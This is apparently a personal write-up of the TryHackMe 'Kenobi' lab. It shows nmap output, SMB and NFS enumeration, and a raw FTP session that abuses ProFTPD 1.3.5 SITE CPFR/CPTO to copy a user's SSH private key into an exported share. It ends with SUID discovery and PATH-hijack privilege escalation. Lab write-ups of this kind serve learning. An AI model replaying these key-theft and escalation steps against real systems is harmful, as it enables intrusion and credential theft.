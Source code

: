 [[TryHackMe]]
##########################
Cosmin Tibuleac | 08.10.2021
##########################




## Reconnaisance

IP: 10.10.203.182
export IP=10.10.2.255 (awesome command!)
## Nmap

 Nmap 7.91 scan initiated Fri Oct  8 13:23:48 2021 as: nmap -sC -sV -o nmap.txt -vv 10.10.203.182
Nmap scan report for 10.10.203.182
Host is up, received reset ttl 63 (0.065s latency).
Scanned at 2021-10-08 13:23:48 EDT for 15s
Not shown: 993 closed ports
Reason: 993 resets
PORT     STATE SERVICE     REASON         VERSION
21/tcp   open  ftp         syn-ack ttl 63 ProFTPD 1.3.5
22/tcp   open  ssh         syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b3:ad:83:41:49:e9:5d:16:8d:3b:0f:05:7b:e2:c0:ae (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC8m00IxH/X5gfu6Cryqi5Ti2TKUSpqgmhreJsfLL8uBJrGAKQApxZ0lq2rKplqVMs+xwlGTuHNZBVeURqvOe9MmkMUOh4ZIXZJ9KNaBoJb27fXIvsS6sgPxSUuaeoWxutGwHHCDUbtqHuMAoSE2Nwl8G+VPc2DbbtSXcpu5c14HUzktDmsnfJo/5TFiRuYR0uqH8oDl6Zy3JSnbYe/QY+AfTpr1q7BDV85b6xP97/1WUTCw54CKUTV25Yc5h615EwQOMPwox94+48JVmgE00T4ARC3l6YWibqY6a5E8BU+fksse35fFCwJhJEk6xplDkeauKklmVqeMysMWdiAQtDj
|   256 f8:27:7d:64:29:97:e6:f8:65:54:65:22:f7:c8:1d:8a (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBpJvoJrIaQeGsbHE9vuz4iUyrUahyfHhN7wq9z3uce9F+Cdeme1O+vIfBkmjQJKWZ3vmezLSebtW3VRxKKH3n8=
|   256 5a:06:ed:eb:b6:56:7e:4c:01:dd:ea:bc:ba:fa:33:79 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGB22m99Wlybun7o/h9e6Ea/9kHMT0Dz2GqSodFqIWDi
80/tcp   open  http        syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/admin.html
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
111/tcp  open  rpcbind     syn-ack ttl 63 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100003  2,3,4       2049/udp   nfs
|   100003  2,3,4       2049/udp6  nfs
|   100005  1,2,3      37059/udp   mountd
|   100005  1,2,3      48193/tcp   mountd
|   100005  1,2,3      52702/udp6  mountd
|   100005  1,2,3      56783/tcp6  mountd
|   100021  1,3,4      37863/tcp6  nlockmgr
|   100021  1,3,4      38057/udp6  nlockmgr
|   100021  1,3,4      39789/tcp   nlockmgr
|   100021  1,3,4      49982/udp   nlockmgr
|   100227  2,3         2049/tcp   nfs_acl
|   100227  2,3         2049/tcp6  nfs_acl
|   100227  2,3         2049/udp   nfs_acl
|_  100227  2,3         2049/udp6  nfs_acl
139/tcp  open  netbios-ssn syn-ack ttl 63 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn syn-ack ttl 63 Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
2049/tcp open  nfs_acl     syn-ack ttl 63 2-3 (RPC #100227)
Service Info: Host: KENOBI; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h39m59s, deviation: 2h53m12s, median: 0s
| nbstat: NetBIOS name: KENOBI, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   KENOBI<00>           Flags: <unique><active>
|   KENOBI<03>           Flags: <unique><active>
|   KENOBI<20>           Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
| Statistics:
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 8838/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 30695/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 45294/udp): CLEAN (Failed to receive data)
|   Check 4 (port 17475/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: kenobi
|   NetBIOS computer name: KENOBI\x00
|   Domain name: \x00
|   FQDN: kenobi
|_  System time: 2021-10-08T12:24:01-05:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-10-08T17:24:01
|_  start_date: N/A

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Oct  8 13:24:04 2021 -- 1 IP address (1 host up) scanned in 15.93 seconds
	
	
### HTTP (80)
	
Looks like port 80 is opened on the machine, but it's only displaying an image: 
	
	![[Pasted image 20211008135024.png]]
	
**Gobuster** could not find any new directories.
	
### FTP (21)
	
	The FTP server looks particularly interesting.
	This ProFTPD server version (1.3.5) seems to be vulnerable to the following exploit, as 
	described on [[Rapid7]]:
	
*This module exploits the SITE CPFR/CPTO commands in ProFTPD version 1.3.5. Any unauthenticated client can leverage these commands to copy files from any part of the filesystem to a chosen destination. The copy commands are executed with the rights of the ProFTPD service, which by default runs under the privileges of the 'nobody' user. By using /proc/self/cmdline to copy a PHP payload to the website directory, PHP remote code execution is made possible.*
	
	[https://www.rapid7.com/db/modules/exploit/unix/ftp/proftpd_modcopy_exec/]
	
	Let's try enumerating the SMB shares/users with *enum4linux*.
	
	Looks like there might be an anonymous share: 
	
	![[Pasted image 20211008143648.png]]
	
	We have also found the following domains: 
	
	![[Pasted image 20211008143717.png]]
	
	Since there is an **anonymous** share on SMB, we can try and login without a password.
	
	We can do so by using the following command: 
*	smbclient //10.10.203.182/anonymous*
	
	Inside the anonymous share, we found a txt file 'log.txt'
	
	The file shows us that the proftpd server is running as 'kenobi' user.
	
	We can see that on the port 111 (rpc)
	showmount -e 10.10.52.227
	Export list for 10.10.52.227:
	/var *
	
	
ProFTPD version seems to be 1.3.5.:
*nmap -sC -sV $IP -p 21                    
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-10 02:45 EDT
Nmap scan report for 10.10.2.255
Host is up (0.062s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.5
Service Info: OS: Unix*

	We can try to connect to the server and move kenobi's id_rsa to the anonymous samba share (which we have access to without any credentials)
*nc $IP 21                                                                                
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.2.255]
SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
250 Copy successful*
exit
	
Now we can try to mount the var file with nfs, like this: 
	
*mount 10.10.2.255:/var /mnt/nfs/kenobiNFS*
	

(root💀kali)-[/mnt/nfs/kenobiNFS/tmp]
└─# ls                                                                                         127 ⨯ 1 ⚙
id_rsa

Now that we have kenobi's id_rsa key, we can try to log into ssh using it.
	
	![[Pasted image 20211010035001.png]]
	
	And here is our user txt:
	
	![[Pasted image 20211010035113.png]]
	
	
Now, we shall try to escalate our privilegies to root.
	
As described on Tryhackme, we can use that by abusing SUID:
	
**SUID bits can be dangerous, some binaries such as passwd need to be run with elevated privileges (as its resetting your password on the system), however other custom files could that have the SUID bit can lead to all sorts of issues. **

**To search the a system for these type of files run the following:**  *find / -perm -u=s -type f 2>/dev/null*

By searching for this, we have found some files.
	
The usr/bin/menu seems interesting, and if we run it, we can see the following: 
	
	![[Pasted image 20211010141323.png]]
	
We can use the "strings" command for those binaries.
*Strings is a command on Linux that looks for human readable strings on a binary.*
	
![[Pasted image 20211010141632.png]]
	
Tryhackme: *This shows us the binary is running without a full path (e.g. not using /usr/bin/curl or /usr/bin/uname).

As this file runs as the root users privileges, we can manipulate our path gain a root shell.*
	
![[Pasted image 20211010142213.png]]
	

	
	
[[SMB]] [[NFS]]
	
